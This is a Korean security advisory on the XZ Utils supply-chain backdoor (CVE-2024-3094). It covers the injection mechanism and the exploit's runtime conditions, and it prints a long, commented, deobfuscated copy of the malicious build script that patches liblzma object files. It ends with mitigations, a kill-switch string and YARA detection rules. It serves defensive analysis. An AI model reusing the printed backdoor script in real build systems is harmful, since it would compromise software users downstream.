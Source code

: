 # XZ Utils 데이터 압축 라이브러리에 영향을 미치는 공급망 손상 취약점(CVE-2024-3094)
##### 원작자 : 문광일 PM, 김평일 대리, 김태현 사원
##### 작성자 : 김태현 사원
##### 작성일자 : 2024년 4월 7일


## 취약점 설명

2024년 03월 29일자로 CISA(미국 사이버보안 및 인프라 보안국) Alert 페이지에 긴급으로 XZ Utils 데이터 압축 라이브러리 취약점 조치권고가 기재됨.
CISA Alert 링크 :
https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094

XZ Utils는 높은 압축률과 빠른 압축 해제를 제공하는 xz 압축 형식용 도구 모음임.
XZ Utils 홈페이지(현재 접근 X) :
https://xz.tukaani.org/xz-utils/

모든 GNU/리눅스 운영체제에서 데이터 압축에 필요한 필수 유틸리티를 제공하는 인기 오픈소스인 'XZ Utils' 라이브러리에서 백도어가 발견돼 전 세계 소프트웨어 및 보안 업계에 비상이 걸림.
특히, 해당 백도어 악성코드는 수많은 기업과 사용자들을 대상으로 한 소프트웨어 공급망 공격으로 볼 수 있어 피해 규모가 어느 정도 확대될지 파장이 커지고 있음.

해당 취약점(CVE-2024-3094)은 소프트웨어 공급망 공격의 일종으로 CVSS 3.1 점수는 10.0으로 최대 심각도를 나타냄.
해당 취약점은 최근 출시된 XZ Utils 버전 5.6.0(2월 24일 출시) 및 5.6.1(3월 9일 출시)에 영향을 미치는 것으로 알려짐.
아래와 빠르게 대응이 필요함.
NIST 링크 :
https://nvd.nist.gov/vuln/detail/CVE-2024-3094


## 취약점 분석

백도어가 동작하게 되면 sshd의 로그인 프로세스 중 CPU 사용량이 크게 증가하게 되며 sshd 와 관련된 비정상적인 징후가 발생함.

동작 방식은 XZ 빌드 프로세스 중 다음 줄이 포함된 구성 스크립트의 마지막에 실행되는 난독화된 스크립트를 삽입하며, xz-utils 및 liblzma용 MakeFiles 생성을 담당하는 Build-to-Host.m4 스크립트가 실행됨.
gl_[$1]config='sed "r\n" $gl_am_configmake | eval $gl_path_map | $gl[$1]_prefix -d 2>/dev/null'.

구성 스크립트에 포함된 숨겨진 코드는 특정 조건에 따라 백도어를 독점적으로 구현하고 있으며 특히, 구성 스크립트 내의 백도어 설치는 선택적 사항으로 표적 OS가 x86-64 Linux이고 XZ 빌드 프로세스가 Debian 또는 RPM 패키지 빌드의 일부여야 하고 해당 조건을 충족하지 못하면 백도어가 설치되지 않음.
if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1); then

난독화된 스크립트가 실행되면 OS가 x86-64 Linux인지, 빌드가 Debian 또는 RPM 패키지 빌드의 일부인지 확인하는 등 다양한 검사를 수행함.
if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64"; then 

해당 스크립트는 런타임 중 심볼 확인을 방해하기 위해 liblzma의 MakeFile을 수정하여 RSA_public_decrypt@....pl 심볼을 악성 백도어 코드로 리디렉션하는 것을 목표로 하며, sshd의 공개 키 인증 프로세스 중에 RSA_public_decrypt@....pl 함수가 호출되어 공격자의 코드가 실행됨.

이후 정상적인 인증을 위해 libcrypto를 다시 호출하여 공격자가 특정 조건에서 인증을 우회하여 취약한 서버에서 원격 코드 실행(RCE)으로 이어질 수 있도록 함.

■ 익스플로잇 런타임 요구 사항
1. TERM 환경 변수는 SSH 클라이언트-서버 통신에서 인증 프로세스의 시작을 의미하므로 설정하지 않아야 함
2. 바이너리 경로는 /usr/sbin/sshd여야 하며, 이는 sshd가 liblzma 라이브러리를 사용할 때 악성 코드가 실행됨을 나타냄
3. 심볼 해상도 간섭이 노출되지 않도록 환경 변수 LD_DEBUG 및 LD_PROFILE은 설정되지 않은 상태로 유지함.
4. LANG 환경 변수는 sshd가 항상 설정 하므로 설정이 필요함
5. 익스플로잇은 안티 디버깅 기법을 사용하여 rr 및 gdb와 같은 디버깅 도구를 탐지하고 실행을 방지함

<details><summary>아래 코드는 난독 해제된 주요 코드에 대한 분석 자료임.</summary>
```# 컴파일러 옵션을 변수에 할당
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
# pic_flag 변수에 P 변수의 값을 할당
C="pic_flag=\" $P\""
# O 변수 할당
O="^pic_flag=\" -fPIC -DPIC\"$"
# 아키텍처 확장 지원 여부를 판단하는 함수 이름을 변수에 할당
R="is_arch_extension_supported"
# CPU ID를 가져오는 함수의 시작 부분을 변수에 할당
x="__get_cpuid("
# 압축된 파일 이름을 변수에 할당
p="good-large_compressed.lzma"
# 손상된 LZMA2 형식의 파일 이름을 변수에 할당
U="bad-3-corrupt_lzma2.xz"
# zrKcVq 변수를 평가하여 실행
eval $zrKcVq
# config.status 파일이 존재하는지 확인
if test -f config.status; then
  # zrKcSS 변수를 평가하여 실행
  eval $zrKcSS
  # config.status 파일에서 LD, CC, GCC, srcdir, build, enable_shared, enable_static, gl_path_map 변수를 설정
  eval `grep ^LD=\'\/ config.status`
  eval `grep ^CC=\' config.status`
  eval `grep ^GCC=\' config.status`
  eval `grep ^srcdir=\' config.status`
  eval `grep ^build=\'x86_64 config.status`
  eval `grep ^enable_shared=\'yes\' config.status`
  eval `grep ^enable_static=\' config.status`
  eval `grep ^gl_path_map=\' config.status`
  # zrKccj 변수를 평가하여 실행
  eval $zrKccj
  # config.status 파일에서 "HAVE_FUNC_ATTRIBUTE_IFUNC"=" 1"이 설정되지 않았다면 스크립트 종료
  if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
    exit 0
  fi
  # config.h 파일에서 "HAVE_FUNC_ATTRIBUTE_IFUNC"이 정의되지 않았다면 스크립트 종료
  if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
    exit 0
  fi
  # enable_shared 변수가 "yes"가 아니라면 스크립트 종료
  if test "x$enable_shared" != "xyes";then
    exit 0
  fi
  # build 변수가 x86_64로 시작하지 않거나 linux-gnu로 끝나지 않는다면 스크립트 종료
  if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
    exit 0
  fi
fi
# $R() 함수가 crc64_fast.c 파일에 없으면 스크립트 종료
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
  exit 0
fi
# $R() 함수가 crc32_fast.c 파일에 없으면 스크립트 종료
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then
  exit 0
fi
# $R 변수가 crc_x86_clmul.h 파일에 없으면 스크립트 종료
if ! grep -qs "$R" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
  exit 0
fi
# $__get_cpuid 함수가 crc_x86_clmul.h 파일에 없으면 스크립트 종료
if ! grep -qs "$x" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
  exit 0
fi
# GCC 변수가 'yes'가 아니면 스크립트 종료
if test "x$GCC" != 'xyes' > /dev/null 2>&1; then
  exit 0
fi
# CC 변수가 'gcc'가 아니면 스크립트 종료
if test "x$CC" != 'xgcc' > /dev/null 2>&1; then
  exit 0
fi
# LD 변수에 '-v' 옵션을 추가하여 GNU ld가 아니면 스크립트 종료
LDv=$LD" -v"
if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1; then
  exit 0
fi
# $srcdir/tests/files/$p 파일이 없으면 스크립트 종료
if ! test -f "$srcdir/tests/files/$p" > /dev/null 2>&1; then
  exit 0
fi
# $srcdir/tests/files/$U 파일이 없으면 스크립트 종료
if ! test -f "$srcdir/tests/files/$U" > /dev/null 2>&1; then
  exit 0
fi
# debian/rules 파일이 있거나 RPM_ARCH 변수가 'x86_64'이면 zrKcst 변수를 평가하여 실행
if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64"; then
  eval $zrKcst
  # src/liblzma/Makefile 파일에서 ACLOCAL_M4 정의가 없으면 스크립트 종료
  j="^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4"
  if ! grep -qs "$j" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 am__uninstall_files_from_dir 정의가 없으면 스크립트 종료
  z="^am__uninstall_files_from_dir = {"
  if ! grep -qs "$z" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 am__install_max 정의가 없으면 스크립트 종료
  w="^am__install_max ="
  if ! grep -qs "$w" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 z 변수 정의가 없으면 스크립트 종료
  E=$z
  if ! grep -qs "$E" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
fi
# src/liblzma/Makefile 파일에서 am__vpath_adj_setup 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$Q" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 am__include 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$M" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 all: all-recursive 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$L" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 LTLIBRARIES 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$m" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 AM_V_CCLD 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$u" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# libtool 파일에서 $O 변수를 찾지 못하면 스크립트 종료
if ! grep -qs "$O" libtool > /dev/null 2>&1; then
  exit 0
fi
# zrKcTy 변수를 평가하여 실행
eval $zrKcTy
# Makefile의 $j 검색 결과 바로 위에 $b 변수의 값 삽입
b="am__test = $U"
sed -i "/$j/i$b" src/liblzma/Makefile || true
# gl_path_map 변수에서 슬래시를 이스케이프하는 작업 후, 결과를 $d에 저장
d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
# Makefile의 $w 검색 결과 바로 위에 정의된 $b 변수의 값을 삽입
b="am__strip_prefix = $d"
sed -i "/$w/i$b" src/liblzma/Makefile || true
# Makefile의 $E 검색 결과 바로 위에 $b 변수의 값 삽입
b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"
sed -i "/$E/i$b" src/liblzma/Makefile || true
# Makefile의 $Q 검색 결과 바로 위에 $s 변수의 값 삽입
b="\$(top_srcdir)/tests/files/\$(am__test)"
s="am__test_dir=$b"
sed -i "/$Q/i$s" src/liblzma/Makefile || true
# LDFLAGS에 "-z,now" 옵션이 포함되어 있지 않으면 $h 변수에 추가
h="-Wl,--sort-section=name,-X"
if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1; then
  h=$h",-z,now"
fi
# Makefile의 $L 검색 결과 바로 위에 $j 변수의 값 삽입
j="liblzma_la_LDFLAGS += $h"
sed -i "/$L/i$j" src/liblzma/Makefile || true
# libtool 파일에서 $O를 $C로 대체
sed -i "s/$O/$C/g" libtool || true
# Makefile에서 $u를 $k로 대체
k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
sed -i "s/$u/$k/" src/liblzma/Makefile || true
# Makefile의 $m 검색 결과 바로 위에 $l 변수의 값 삽입
l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
    export top_src
    export top_srcdir='\$(top_srcdir)'; \\\\\n\
    export CC='\$(CC)'; \\\\\n\
    export DEFS='\$(DEFS)'; \\\\\n\
    export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
    export INCLUDES='\$(INCLUDES)'; \\\\\n\
    export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
    export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
    export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
    export CFLAGS='\$(CFLAGS)'; \\\\\n\
    export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
    export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
    export libdir='\$(libdir)'; \\\\\n\
    export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
    export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
    # rpath를 사용하여 am__test_dir에서 실행 파일을 찾고, am__dist_setup을 통해 압축 해제 및 실행 환경 구성
    sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
sed -i "/$m/i$l" src/liblzma/Makefile || true
# zrKcHD 변수를 평가하여 실행
eval $zrKcHD
fi
# 먼저, .libs 폴더 내에 liblzma_la-crc64_fast.o 파일과 liblzma_la-crc32_fast.o 파일이 모두 존재하는지 확인함
elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then
# 조건을 충족하면 zrKcKQ 변수에 저장된 명령을 실행함
eval $zrKcKQ
# src/liblzma/check/crc64_fast.c 파일에 $R() 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc64_fast.c; then
exit 0
fi
# src/liblzma/check/crc32_fast.c 파일에 $R() 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc32_fast.c; then
exit 0
fi
# src/liblzma/check/crc_x86_clmul.h 파일에 $R 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
# src/liblzma/check/crc_x86_clmul.h 파일에 $x 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$x" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
# ../../libtool 파일에 $C 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$C" ../../libtool; then
exit 0
fi
# liblzma_la_LINK 변수에 "-z,now" 또는 "-z -Wl,now" 옵션이 포함되어 있지 않은 경우 스크립트 실행을 중단함
if ! echo $liblzma_la_LINK | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
exit 0
fi
# liblzma_la_LINK 변수에 "lazy" 옵션이 포함되어 있는 경우 스크립트 실행을 중단함
if echo $liblzma_la_LINK | grep -qs -e "lazy" > /dev/null 2>&1;then
exit 0
fi
# N과 W 변수를 초기화
N=0
W=0
# $top_srcdir/m4/gettext.m4 파일에서 "dnl Convert it to C string syntax." 문자열을 찾아 Y 변수에 저장함
Y=`grep "dnl Convert it to C string syntax." $top_srcdir/m4/gettext.m4`
# zrKcjv 변수에 저장된 명령을 실행함
eval $zrKcjv
# Y 변수가 비어있는 경우 N을 0으로, W를 88792으로 설정함
if test -z "$Y"; then
N=0
W=88792
# 그렇지 않은 경우 N을 88792으로, W를 0으로 설정함
else
N=88792
W=0
fi
# tests/files 폴더 내의 압축된 테스트 파일($p)을 xz 명령으로 해제하고, $i 변수에 저장된 명령을 실행함
# 그 결과를 sed와 awk를 통해 처리하고, 이를 다시 xz로 압축해 단일 스트림으로 만들어 liblzma_la-crc64-fast.o 파일에 저장함
# 모든 명령이 성공적으로 실행되지 않을 경우 true(0)을 반환하여 스크립트가 계속 실행되게 함
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<4096;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
# liblzma_la-crc64-fast.o 파일이 존재하지 않으면 스크립트 실행을 중단함
if ! test -f liblzma_la-crc64-fast.o; then
exit 0
fi
# .libs 폴더 내에 있는 liblzma_la-crc64_fast.o 파일을 liblzma_la-crc64-fast.o 파일로 복사함
# 복사에 실패해도 스크립트 실행을 중단하지 않음
cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
# V 변수에 특정 조건을 충족하는 아키텍처에서 지원되는 함수를 확인하는 코드를 저장함
V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
# yosA 변수에 저장된 명령을 실행함
eval $yosA
# crc64_fast.c 파일을 수정하여 is_arch_extension_supported() 함수 대신 _is_arch_extension_supported()를 사용하고,
# crc_x86_clmul.h 헤더 파일을 포함하는 코드를 추가함
# 이 변경 사항을 적용하고 컴파일하여 .libs 폴더 내에 새로운 liblzma_la-crc64_fast.o 객체 파일을 생성함
# crc64_fast.c 파일에서 아키텍처 지원 여부를 확인하는 함수를 수정함
# 이를 위해 sed를 사용하여 is_arch_extension_supported() 호출을 _is_arch_extension_supported()로 변경함
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
# crc32_fast.c 파일을 수정하여 is_arch_extension_supported() 함수 대신 _is_arch_extension_supported()를 사용하고,
# crc32_arm64.h 헤더 파일을 포함하는 코드를 추가함
# 이 변경 사항을 적용하고 컴파일하여 .libs 폴더 내에 새로운 liblzma_la-crc32_fast.o 객체 파일을 생성함
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
sed "/include \"crc32_arm64.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
eval $RgYB
# liblzma 라이브러리를 링크하고, 라이브러리가 성공적으로 생성되지 않았다면,
# .libs 폴더 내의 crc32 및 crc64 관련 객체 파일들의 이름을 조정함
if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
    if test ! -f .libs/liblzma.so; then
        mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
    # 생성된 라이브러리 파일들을 삭제함
    rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
else
    # 라이브러리 링크 과정이 실패했다면, 객체 파일들의 이름을 조정함
    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
# 사용하지 않는 객체 파일들을 삭제함
rm -f .libs/liblzma_la-crc32-fast.o || true
rm -f .libs/liblzma_la-crc64-fast.o || true
# 앞서 진행한 변경 사항이 성공적으로 적용되지 않았다면,
# .libs 폴더 내의 crc32 및 crc64 관련 객체 파일들의 이름을 조정함
else
    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
# 마지막으로, 더 이상 필요하지 않은 liblzma_la-crc64-fast.o 파일을 삭제함
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd
```
</details> 


## 취약점 대응

1. CVE-2024-3094 취약점 여부 탐지 후 개선 버전(다운그레이드)으로 변경 설치
다음을 실행하여 “XZ” 버전이 영향을 받는 버전(5.6.0 or 5.6.1)인지 확인함.
strings `which xz` | grep '5\.6\.[01]
영향받는 버전일 경우 다음과 같이 출력함.
xz (XZ Utils) 5.6.1

또는 Alpine Package Manager 를 사용하여 버전을 확인할 수 있음.
$ apk list xz
xz-5.6.1-r2 x86_64 {xz} ...

2. 악성 백도어 기능 비활성화
업그레이드나 다운그레이드가 불가능한 경우, 백도어의 “킬 스위치” 를 통해 악성 백도어 기능을 비활성화가 가능함.
/etc/environment 파일에 다음 문자열을 추가함. (단, SSH 및 Systemd를 다시 시작한 후 적용)
sudo systemctl restart ssh

yolAbejyiejuvnup=Evjtgvsh5okmkAvj

3. CVE-2024-3094 취약점 탐지 도구 사용
아래 오픈소스 도구를 이용하여 로컬 시스템이 CVE-2024-3094에 취약하고 XZ의 악성 버전이 설치되어 있는지 검사함.
도구 1 : https://github.com/jfrog/cve-2024-3094-tools/tree/main/cve-2024-3094-detector
도구 2.: https://github.com/FabioBaroni/CVE-2024-3094-checker

4. yara 를 이용한 EDR 패턴 업데이트
```
rule BKDR_XZUtil_Script_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects make file and script contents used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 80
      hash = "d44d0425769fa2e0b6875e5ca25d45b251bbe98870c6b9bef34f7cea9f84c9c3"
   strings:
      $x1 = "/bad-3-corrupt_lzma2.xz | tr " ascii
      $x2 = "/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|" ascii
      $x3 = "eval $zrKcKQ" ascii
   condition:
      1 of them
}
rule BKDR_XZUtil_Binary_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects injected code used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 75
      hash1 = "319feb5a9cddd81955d915b5632b4a5f8f9080281fb46e2f6d69d53f693c23ae"
      hash2 = "605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4"
      hash3 = "8fa641c454c3e0f76de73b7cc3446096b9c8b9d33d406d38b8ac76090b0344fd"
      hash4 = "b418bfd34aa246b2e7b5cb5d263a640e5d080810f767370c4d2c24662a274963"
      hash5 = "cbeef92e67bf41ca9c015557d81f39adaba67ca9fb3574139754999030b83537"
      hash6 = "5448850cdc3a7ae41ff53b433c2adbd0ff492515012412ee63a40d2685db3049"
   strings:
      $op1 = { 48 8d 7c 24 08 f3 ab 48 8d 44 24 08 48 89 d1 4c 89 c7 48 89 c2 e8 ?? ?? ?? ?? 89 c2 }
      $op2 = { 31 c0 49 89 ff b9 16 00 00 00 4d 89 c5 48 8d 7c 24 48 4d 89 ce f3 ab 48 8d 44 24 48 }
      $op3 = { 4d 8b 6c 24 08 45 8b 3c 24 4c 8b 63 10 89 85 78 f1 ff ff 31 c0 83 bd 78 f1 ff ff 00 f3 ab 79 07 }
      /* function signature from detect.sh provided by Vegard Nossum */
      $xc1 = { F3 0F 1E FA 55 48 89 F5 4C 89 CE 53 89 FB 81 E7 00 00 00 80 48 83 EC 28 48 89 54 24 18 48 89 4C 24 10 }
   condition:
      uint16(0) == 0x457f
      and (
         all of ($op*)
         or $xc1
      )
}
rule BKDR_XZUtil_KillSwitch_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects kill switch used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01?permalink_comment_id=5006558#gistcomment-5006558"
      date = "2024-03-30"
      score = 85
   strings:
      $x1 = "yolAbejyiejuvnup=Evjtgvsh5okmkAvj"
   condition:
      $x1
}
```


( 4 ) 참고 사이트

https://openwall.com/lists/oss-security/2024/03/29/4
https://www.boannews.com/media/view.asp?idx=128350&kind=&sub_kind=
https://jfrog.com/blog/xz-backdoor-attack-cve-2024-3094-all-you-need-to-know/
https://www.picussecurity.com/resource/blog/cve-2024-3094-a-backdoor-in-xz-utils-leads-to-remote-code-execution
https://vulcan.io/blog/alert-cve-2024-3094

